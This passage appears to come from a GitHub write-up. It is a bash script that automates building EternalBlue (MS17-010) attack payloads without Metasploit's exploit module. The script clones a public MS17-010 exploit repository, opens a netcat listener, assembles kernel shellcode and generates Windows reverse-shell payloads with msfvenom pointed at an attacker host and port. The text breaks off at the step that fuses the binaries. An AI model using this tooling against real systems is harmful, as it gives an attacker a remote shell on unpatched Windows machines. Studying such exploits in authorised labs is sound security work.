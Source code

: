 Built a small bash script to help make compiling the assembly. To make it easier with setting the `attacker IP address`, `server IP address`, and `attacker listening port`.

```
#!/bin/bash
# eternalblue without metasploit github script
# how to run
# chmod +x script.sh
# ./script.sh lhost lport rhost
help () {
    echo -e "\nMS17-010 Assembly and msfvenom Help Menu\n----\n-l | lhost ipv4 address"
    echo "-p | lport listening port"
    echo "-r | rport target ipv4 address"
    echo -e "-f | directory name to output shellcode\n\nExample:"
    echo -e "./blue.sh -l 192.168.1.45 -p 1337 -r 192.168.1.14 -f blue_code\n"
}
# help menu
if [ -z "$1" ]; then
    help
    exit 1
elif [ "$1" == "-h" ]; then
    help
    exit 1
else
while getopts l:p:r:f: opts
do
    case "$opts" in
    l) l_host=$OPTARG;;
    p) l_port=$OPTARG;;
    r) r_host=$OPTARG;;
    f) f_dir=$OPTARG;;
esac
done
fi

# grab code from github <already going to install that
check=`ls | grep -i "MS17-010"`
if [ "$check" == "MS17-010" ]; then
    echo -e "\nExploit Code Already Downloaded\n"
else
    git clone https://github.com/worawit/MS17-010.git
fi

#create listener for tmux
export heylisten=$l_port
tmux split-window -h nc -lvnp $heylisten

# create folder_for all the binaries
mkdir $f_dir

#compile for 64bit windows + payload creation
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./$f_dir/sc_x64_kernel.bin
msfvenom -p windows/x64/shell_reverse_tcp LPORT=$l_port LHOST=$l_host --platform windows -a x64 --format raw -o ./$f_dir/sc_x64_payload.bin
cat ./$f_dir/sc_x64_kernel.bin ./$f_dir/sc_x64_payload.bin > ./$f_dir/sc_x64.bin

#compile for 32bit windows + payload creation
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./$f_dir/sc_x86_kernel.bin
msfvenom -p windows/shell_reverse_tcp LPORT=$l_port LHOST=$l_host --platform windows -a x86 --format raw -o ./$f_dir/sc_x86_payload.bin
cat ./$f_dir/sc_x86_kernel.bin ./$f_dir/sc_x86_payload.bin > ./$f_dir/sc_x86.bin

# fuse binaries together
```